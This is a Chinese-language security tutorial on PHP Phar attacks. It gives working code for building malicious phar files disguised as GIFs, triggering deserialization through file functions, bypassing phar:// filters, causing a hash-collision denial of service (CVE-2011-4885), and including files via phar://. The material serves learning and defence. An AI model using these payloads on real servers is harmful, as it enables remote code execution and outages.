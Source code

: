# Phar的文件包含与反序列化

## 反序列化

### 参考

- https://blog.zsxsoft.com/post/38
- https://paper.seebug.org/680/

### 利用条件

- phar文件要能够上传到服务器端。
- 存在`__destruct`,`__wakeup`魔术方法作为跳板
- 存在相关[函数](https://blog.zsxsoft.com/post/38)函数,并且参数可控，`:`、`/`、`phar`等特殊字符没有被过滤。

### 受影响的函数列表

### ![](../images/19-1-19_2018总结-PHP篇_利用类进行反序列化Phar1.png)

对于函数影响范围的深入追求参看[zsx](https://blog.zsxsoft.com/post/38)师傅的文章，简单如下：

- exif (exif_thumbnail、exif_imagetype)
- gd (imageloadfont、imagecreatefrom..)
- hash (hash_hmac_file、hash_file、hash_update_file、md5_file、sha1_file)
- file/url (get_meta_tags、get_headers)
- standard (getimagesize、getimagesizefromstring)
- zip
```php
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
```
- Postgres
```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```
- MySQL (要设置local-infile=1、secure_file_priv=""，因为是非默认设置)
```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```

### 利用

**一、生成恶意phar代码**

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php phpinfo();__HALT_COMPILER();?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

其中`xxx<?php xxx; __HALT_COMPILER();?>`是phar文件的stub，可用理解为一个身份id。其中stub的内容必须以`__HALT_COMPILER();?>`结尾，否则phar扩展将无法识别这个文件为phar文件。具体参考[seebug](https://paper.seebug.org/680/)的文章。

**二、phar反序列化已构造的恶意php文件**

```php
<?php 
    class TestObject {
    	public function __wakeup() {
            echo 'Destruct wakeup';
        }
        public function __destruct() {
            echo 'Destruct called';
        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```

![](../images/19-7-13_Phar的文件包含与反序列化_反序列化_1.png)

**Bypass**

如果waf过滤了phar://，则可以使用：

```
compress.bzip2://phar://
compress.zlib://
```

**伪造为其他类型的文件**

phar文件可通过添加幻术伪造为其他类型的文件

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

![](../images/19-7-23_PHP_Phar的文件包含与反序列化_反序列化_2.png)

## 拒绝服务攻击

### PHP内核哈希表碰撞攻击

进行拒绝服务攻击(PHP内核哈希表碰撞攻击（CVE-2011-4885）)

```php
<?php
set_time_limit(0);
$size= pow(2, 16);
$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
    $array[$key] = 0;
}
$new_obj = new stdClass;
$new_obj->hacker = $array;
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['hacker.php'] = '<?php ?>';
$p->setMetadata($new_obj);
$p->setStub('GIF<?php __HALT_COMPILER();?>');
```
反序列化上文生成的恶意文件

```php
<?php
set_time_limit(0);
$startTime = microtime(true);
file_exists("phar://avatar.phar");
$endTime = microtime(true);
echo '执行时间：  '.($endTime - $startTime). ' 秒'; 
```

![](../images/19-7-23_PHP_Phar的文件包含与反序列化_反序列化_3.png)

## 文件包含

### 利用范围

- PHP 5 >= 5.3.0、 PECL phar >= 1.0.0
- PHP 7、 PECL phar >= 1.0.0

### 参考

- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

### 利用

index.php

```php
<?php
include($_GET['file']);
?>
```
shell.txt
```php
<?php phpinfo() ?>
```
把sehll.txt压缩成test.zip文件

可用以下姿势进行包含
```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/shell.txt   //绝对路径
index.php?file=phar://test.zip/shell.txt   //相对路径
```

![](../images/19-7-23_PHP_Phar的文件包含与反序列化_文件包含_1.png)
